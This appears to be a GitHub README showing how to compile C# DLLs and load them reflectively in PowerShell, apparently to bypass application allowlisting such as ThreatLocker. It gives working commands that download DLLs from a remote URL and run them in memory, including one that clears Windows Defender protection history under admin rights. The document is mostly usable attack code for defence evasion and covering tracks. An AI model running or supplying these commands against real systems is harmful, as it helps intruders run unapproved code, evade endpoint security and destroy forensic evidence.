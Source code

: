 # Refletively load C# DLLs via PowerShell  

Based on https://ruptura-infosec.com/hack-of-the-month/bypassing-threatlocker-with-powershell/  

Add C Sharp Compiler to path
```powershell  
[System.Environment]::SetEnvironmentVariable("Path", $env:Path + ";C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\MSBuild\Current\Bin\Roslyn\", [System.EnvironmentVariableTarget]::Machine)
```  

Compile DLL from .cs    
```powershell  
csc /target:library /out:payload.dll test.cs
csc /target:library /out:get-sec-history.dll get-sec-history.cs
csc /target:library /out:clear-sec-history.dll clear-sec-history.cs
```  

Load DLL reflectively in PowerShell POC
```powershell  
$currentDir = Get-Location
$bytes = [IO.File]::ReadAllBytes("$currentDir\payload.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$instance = $assembly.CreateInstance("ProgramNamespace.Program")
$instance.RunO()
```  

Load DLL method 1 (Create instance from local file)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL from the current directory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of DefenderHistory class and invoke the method
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")
$output = $instance.GetProtectionHistory()
Write-Output $output
```  

Load DLL method 2 (Create instance from web request)  
```powershell  
# URL of the DLL on the web server
$url = "https://github.com/timsonner/load-cs-dll-from-powershell/raw/refs/heads/master/get-sec-history.dll"

# Download the DLL as bytes
$bytes = (New-Object Net.WebClient).DownloadData($url)

# Load the assembly directly from the byte array
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")

# Invoke the GetProtectionHistory method
$output = $instance.GetProtectionHistory()

# Display the output
Write-Output $output
```  

Clear security events (must be run in admin powershell aka `Start-Process powershell -Verb runas`)  
```powershell  
# URL of the DLL on the web server
$url = "https://github.com/timsonner/load-cs-dll-from-powershell/raw/refs/heads/master/clear-sec-history.dll"

# Download the DLL as bytes
$bytes = (New-Object Net.WebClient).DownloadData($url)

# Load the assembly directly from the byte array
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")

if ($null -eq $instance) {
    Write-Output "Failed to create an instance. Verify the namespace and class name. Are you running from Administrator PowerShell?????"
    return
}

# Invoke the ClearProtectionHistory method
$output = $instance.ClearProtectionHistory()

# Display the output
Write-Output $output 

```  
